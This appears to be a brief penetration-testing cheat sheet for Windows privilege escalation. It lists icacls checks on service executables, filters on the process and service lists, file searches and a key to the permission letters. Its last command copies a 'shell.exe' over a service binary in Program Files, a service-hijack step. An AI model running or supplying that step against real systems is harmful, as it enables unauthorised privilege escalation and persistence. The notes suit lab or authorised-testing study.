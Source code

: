 ## icacls

https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

```
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

- **F** - Full access    
- **M**- Modify access
- **RX** - Read and execute access
- **R** - Read-only access
- **W** - Write-only access

```
icacls "C:\xampp\apache\bin\httpd.exe"
```

```
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

```
tasklist | findstr "cmd"
```

```
sc query | findstr /i cmd
```

```
tree /f /a
```

```
dir /s/b *.log
```

```
copy C:\Users\Public\shell.exe "C:\Program Files\Common Files\Services\autoreload.exe" /Y
```


